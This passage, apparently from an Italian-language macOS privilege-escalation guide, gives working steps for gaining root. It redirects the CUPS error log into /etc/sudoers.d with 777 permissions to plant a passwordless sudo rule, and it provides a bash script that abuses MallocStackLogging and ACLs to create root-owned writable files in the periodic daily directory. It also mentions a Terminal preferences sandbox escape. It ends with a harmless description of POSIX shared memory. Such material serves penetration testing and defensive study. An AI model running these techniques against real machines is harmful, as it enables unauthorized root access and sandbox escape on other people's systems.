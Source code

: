 Crea il file `/etc/cups/cups-files.conf` con il seguente contenuto:
```
ErrorLog /etc/sudoers.d/lpe
LogFilePerm 777
<some junk>
```
Questo creerà il file `/etc/sudoers.d/lpe` con permessi 777. La spazzatura extra alla fine serve a innescare la creazione del log degli errori.

Poi, scrivi in `/etc/sudoers.d/lpe` la configurazione necessaria per elevare i privilegi come `%staff ALL=(ALL) NOPASSWD:ALL`.

Poi, modifica di nuovo il file `/etc/cups/cups-files.conf` indicando `LogFilePerm 700` in modo che il nuovo file sudoers diventi valido invocando `cupsctl`.

### Sandbox Escape

È possibile sfuggire alla sandbox di macOS con una scrittura arbitraria su FS. Per alcuni esempi, controlla la pagina [macOS Auto Start](../../../../macos-auto-start-locations.md), ma uno comune è scrivere un file di preferenze del Terminale in `~/Library/Preferences/com.apple.Terminal.plist` che esegue un comando all'avvio e chiamarlo usando `open`.

## Genera file scrivibili come altri utenti

Questo genererà un file che appartiene a root e che è scrivibile da me ([**code from here**](https://github.com/gergelykalman/brew-lpe-via-periodic/blob/main/brew_lpe.sh)). Questo potrebbe anche funzionare come privesc:
```bash
DIRNAME=/usr/local/etc/periodic/daily

mkdir -p "$DIRNAME"
chmod +a "$(whoami) allow read,write,append,execute,readattr,writeattr,readextattr,writeextattr,chown,delete,writesecurity,readsecurity,list,search,add_file,add_subdirectory,delete_child,file_inherit,directory_inherit," "$DIRNAME"

MallocStackLogging=1 MallocStackLoggingDirectory=$DIRNAME MallocStackLoggingDontDeleteStackLogFile=1 top invalidparametername

FILENAME=$(ls "$DIRNAME")
echo $FILENAME
```
## POSIX Shared Memory

**La memoria condivisa POSIX** consente ai processi nei sistemi operativi conformi a POSIX di accedere a un'area di memoria comune, facilitando una comunicazione più rapida rispetto ad altri metodi di comunicazione inter-processo. Comporta la creazione o l'apertura di un oggetto di memoria condivisa con `shm_open()`, la definizione della sua dimensione con `ftruncate()`, e la mappatura nello spazio degli indirizzi del processo utilizzando `mmap()`. I processi possono quindi leggere e scrivere direttamente in quest'area di memoria. Per gestire l'accesso concorrente e prevenire la corruzione dei dati, vengono spesso utilizzati meccanismi di sincronizzazione come mutex o semafori. Infine, i processi smappano e chiudono la memoria condivisa con `munmap()` e `close()`, e opzionalmente rimuovono l'oggetto di memoria con `shm_unlink()`. Questo sistema è particolarmente efficace per un IPC efficiente e veloce in ambienti in cui più processi devono accedere rapidamente ai dati condivisi.
